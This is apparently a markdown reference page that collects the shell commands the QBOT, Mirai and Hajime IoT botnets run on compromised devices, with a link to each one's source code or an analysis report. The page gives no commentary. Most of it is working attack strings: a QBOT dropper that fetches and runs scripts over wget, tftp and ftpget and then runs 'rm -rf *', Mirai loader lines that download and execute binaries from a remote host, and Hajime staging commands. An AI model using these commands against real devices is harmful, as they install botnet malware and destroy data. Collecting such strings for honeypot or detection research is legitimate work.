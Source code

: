 # QBOT
https://github.com/geniosa/qbot

	cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget %s; chmod 777 bins.sh; sh bins.sh; tftp %s -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g %s; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 %s ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf bins.sh tftp1.sh tftp2.sh ftp1.sh; rm -rf *; exit
	
# Mirai
https://github.com/jgamblin/Mirai-Source-Code

## Bot

	shell
	enable
	system
	sh
	/bin/busybox MIRAI
	/bin/busybox ps
	/bin/busybox kill -9 

## Loader

	/bin/busybox kill -9 %d
	/bin/busybox cat /proc/%d/environ
	/bin/busybox kill -9 %d
	/bin/busybox echo -e '%s%s' > %s/.nippon; /bin/busybox cat %s/.nippon; /bin/busybox rm %s/.nippon
	/bin/busybox echo -e '%s/dev' > /dev/.nippon; /bin/busybox cat /dev/.nippon; /bin/busybox rm /dev/.nippon
	/bin/busybox %s
	rm %s/.t; rm %s/.sh; rm %s/.human
	echo -ne '%s' %s %s; /bin/busybox %s
	enable
	shell
	sh
	/bin/busybox %s
	/bin/busybox ps; /bin/busybox %s
	/bin/busybox cat /proc/mounts; /bin/busybox %s
	cd %s/
	/bin/busybox cp /bin/echo %s; >%s; /bin/busybox chmod 777 %s; /bin/busybox %s
	/bin/busybox cat /bin/echo
	/bin/busybox %s
	/bin/busybox wget; /bin/busybox tftp; /bin/busybox %s
	cat /proc/cpuinfo; /bin/busybox %s
	/bin/busybox wget; /bin/busybox tftp; /bin/busybox %s
	/bin/busybox wget; /bin/busybox tftp; /bin/busybox %s
	/bin/busybox cp %s %s; > %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	/bin/busybox wget http://%s:%d/bins/%s.%s -O - > %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	/bin/busybox tftp -g -l %s -r %s.%s %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	./%s; ./%s %s.%s; /bin/busybox %s
	./%s %s.%s; /bin/busybox %s
	./%s %s.%s; /bin/busybox %s
	/bin/busybox cp %s %s; > %s; /bin/busybox chmod 777 %s; /bin/busybox %s
	/bin/busybox wget; /bin/busybox tftp; /bin/busybox %s
	rm -rf %s; > %s; /bin/busybox %s
	/bin/busybox %s
	kill %%1rm -rf %s %s
	/bin/busybox wget; /bin/busybox tftp; /bin/busybox %s

# HAJIME
https://security.rapiditynetworks.com/publications/2016-10-16/hajime.pdf

	enable
	system
	shell
	sh
	/bin/busybox ECCHI

	cat /proc/mounts; /bin/busybox ECCHI

	cd /var; cat .s || cp /bin/echo .s; /bin/busybox ECCHI
	/bin/busybox chmod 777 .s; /bin/busybox ECCHI
	cat .s; /bin/busybox ECCHI
	/bin/busybox ECCHI;

	echo -ne %s > .s; /bin/busybox ECCHI
	cp .s .i; >.i; ./.s>.i; ./.i; rm .s; /bin/busybox ECCHI

